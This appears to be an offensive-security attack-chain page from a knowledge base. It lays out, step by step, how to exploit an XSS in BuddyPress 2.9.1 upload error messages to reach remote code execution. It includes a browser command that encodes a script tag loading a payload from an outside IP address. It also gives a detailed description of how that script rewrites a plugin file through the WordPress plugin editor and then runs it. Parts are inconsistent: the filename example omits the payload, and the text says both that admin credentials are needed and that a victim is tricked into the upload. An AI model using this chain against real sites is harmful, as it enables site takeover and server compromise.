

---
tags:
  - xss
  - wordpress
  - buddypress
  - rce
  - file-upload
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/btoa-encode-xss-payload]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Login-to-WordPress-Admin]]'
  - '[[procedures/Navigate-to-Profile-Upload-Interface]]'
  - '[[procedures/Upload-Oversized-File-with-XSS-Payload]]'
  - '[[procedures/Execute-Chained-XSS-for-RCE]]'
step_count: 4
techniques:
  - '[[JavaScript]]'
  - '[[Command-Line Interface]]'
description: >-
  Multi-stage attack exploiting XSS in BuddyPress upload error messages to
  achieve arbitrary JavaScript execution and chain to potential RCE via file
  modification.
skill_level: intermediate
impact_level: high
id: 6d48b323-a7a7-4db4-95a0-bb3f01328202
created_at: '2025-12-14T03:46:37.645Z'
updated_at: '2025-12-14T03:46:37.645Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Command-Line Interface]]'
---
# BuddyPress 2.9.1 XSS via Oversized Upload Filename Leading to RCE

Multi-stage attack chain demonstrating exploitation of an XSS vulnerability in BuddyPress 2.9.1 upload interfaces, where oversized files with malicious filenames trigger unsanitized error messages, enabling JavaScript execution that can be chained to XSSI and same-origin attacks for potential RCE if the victim is an admin. This requires social engineering to induce the victim to upload the file.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with developer console (e.g., Chrome DevTools)

### Target Environment

- WordPress with BuddyPress 2.9.1 plugin
- Web platform accessible via HTTP/HTTPS
- Ports: 80/443 (standard web), 8090 (for local testing iframe)

### Initial Access Requirements

- Valid admin credentials for the target WordPress site
- Network access to the target site
- Social engineering to trick admin into performing the upload if not direct access

## Detailed Attack Procedures

### Step 1: Login to WordPress Admin
procedure: [[procedures/Login-to-WordPress-Admin]]

**Objective**: Authenticate to gain access to the admin dashboard for subsequent profile editing.

**Instructions**: Open a browser and navigate to the WordPress login page, then enter admin credentials.

**Expected Output**: Successful redirection to the WordPress admin dashboard (/wp-admin).

**Success Indicators**:
- Admin dashboard loads without errors
- User role confirmed as administrator

### Step 2: Navigate to Profile Upload Interface
procedure: [[procedures/Navigate-to-Profile-Upload-Interface]]

**Objective**: Access the BuddyPress profile edit or avatar/cover image upload endpoints.

**Instructions**: From the admin dashboard, navigate to user profile editing interfaces such as /wp-admin/users.php?page=bp-profile-edit or frontend paths like /members/USERNAME/profile/change-cover-image/ or /members/bbuser/profile/change-avatar/.

**Expected Output**: Upload form for avatar or profile background image is visible.

**Success Indicators**:
- Upload interface loads
- File input fields are present

### Step 3: Upload Oversized File with XSS Payload
procedure: [[procedures/Upload-Oversized-File-with-XSS-Payload]]

**Objective**: Trigger the XSS by uploading a file exceeding size limits with a filename containing a base64-encoded payload.

**Instructions**: First, generate the base64-encoded payload using [[commands/btoa-encode-xss-payload]] in the browser console:

```javascript
btoa('Running POC<script type="text/javascript" src="http://159.203.190.123/w9rfas89eufs9e8fu98ewufjwefiojwe_s1058g-/wp-rce.js"></script>');
```

Then, create a file larger than the upload limit (e.g., >2MB image) and rename it to include the decoded payload wrapped in an onerror handler, such as: POC.jpg. Upload the file via the interface.

**Expected Output**: Upload fails due to size, but error message displays the filename, triggering the XSS payload.

**Success Indicators**:
- Error message appears with unsanitized filename
- JavaScript alert or external script load occurs

### Step 4: Execute Chained XSS for RCE
procedure: [[procedures/Execute-Chained-XSS-for-RCE]]

**Objective**: Leverage the XSS to load an external script that modifies a PHP file for RCE execution.

**Instructions**: The triggered payload decodes and executes, loading wp-rce.js from the external server. The script creates an iframe to http://127.0.0.1:8090/wp-admin/plugin-editor.php?file=hello.php, appends it to the body, waits 2 seconds, sets the #newcontent field to '<?php phpinfo();', simulates a click on #submit to save changes, waits 4 more seconds, and redirects to http://127.0.0.1:8090/wp-content/plugins/hello.php to execute the modified file.

**Expected Output**: PHP file modified and executed, displaying phpinfo() output or similar RCE result.

**Success Indicators**:
- Iframe loads and form submission succeeds
- Redirect to modified PHP file shows execution

## Attack Chain Summary

### Key Achievements

1. Successful XSS injection via upload error message
2. Arbitrary JavaScript execution in victim context
3. Chained exploitation to modify server-side files
4. Achievement of potential RCE on admin victims

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Command-Line Interface]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01*
